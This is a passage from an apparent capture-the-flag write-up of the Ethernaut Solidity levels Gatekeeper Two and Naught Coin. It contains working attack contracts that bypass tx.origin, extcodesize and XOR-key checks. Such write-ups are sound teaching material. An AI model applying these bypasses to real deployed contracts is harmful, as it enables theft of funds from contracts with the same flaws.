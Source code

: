 ```
        bytes memory payload = abi.encodeWithSignature("enter(bytes8)", _key);
        (bool success,) = victim.call{gas: 819354}(payload);
        require(success, "failed somewhere...");
    }
}
```

## 14. Gatekeeper Two
Very similar to the previous level except it requires you to know a little bit more about bitwise operations (specifically XOR) and about `extcodesize`.

1. The workaround to `gateOne` is to initiate the transaction from a smart contract since from the victim's contract pov, `msg.sender` = address of the smart contract while `tx.origin` is your address.
2. `gateTwo` stumped me for a little while because how can both extcodesize == 0 and yet msg.sender != tx.origin? Well the solution to this is that all function calls need to come from the constructor! When first deploy a contract, the extcodesize of that address is 0 until the constructor is completed!
3. `gateThree` is very easy to solve if you know the XOR rule of `if A ^ B = C then A ^ C = B`.

Note that as of solidity 0.8.0, you cannot do uint64(0) - 1 unless it's done inside an uncheck scope so I've modified it to type(uint64).max.

```
pragma solidity ^0.8.0;

contract AttackGatekeeperTwo {

    constructor(address _victim) {
        bytes8 _key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        bytes memory payload = abi.encodeWithSignature("enter(bytes8)", _key);
        (bool success,) = _victim.call(payload);
        require(success, "failed somewhere...");
    }

    function passGateThree() public view returns(bool) {
        // if a ^ b = c then a ^ c = b;
        // uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
        // can be rewritten as
        // uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1 == uint64(_gateKey)
        uint64 key = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max;
        return uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ key == type(uint64).max;
    }
}
```

## 15. Naught Coin
I do not quite understand the purpose of this level either. Perhaps it is to remind the developer to be careful when implementing the business logic and to ensure that other functions cannot somehow bypass it e.g. using `transferFrom` to bypass the `lockTokens` modifier on `transfer`.
